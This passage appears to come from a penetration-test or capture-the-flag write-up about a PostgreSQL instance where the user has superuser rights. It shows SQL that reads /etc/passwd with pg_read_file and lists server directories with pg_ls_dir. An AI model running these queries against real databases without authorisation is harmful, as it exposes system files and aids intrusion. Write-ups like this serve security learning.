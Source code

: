 The `\du` shows the roles and we are `superuser`
![](images/2025-09-01_4.png)

### Reading files and List them

```SQL
SELECT * FROM pg_read_file('/etc/passwd', 0, 1000000);
```
![](images/2025-09-01_5.png)

```SQL
SELECT * FROM pg_ls_dir('/tmp');
SELECT * FROM pg_ls_dir('/');
```
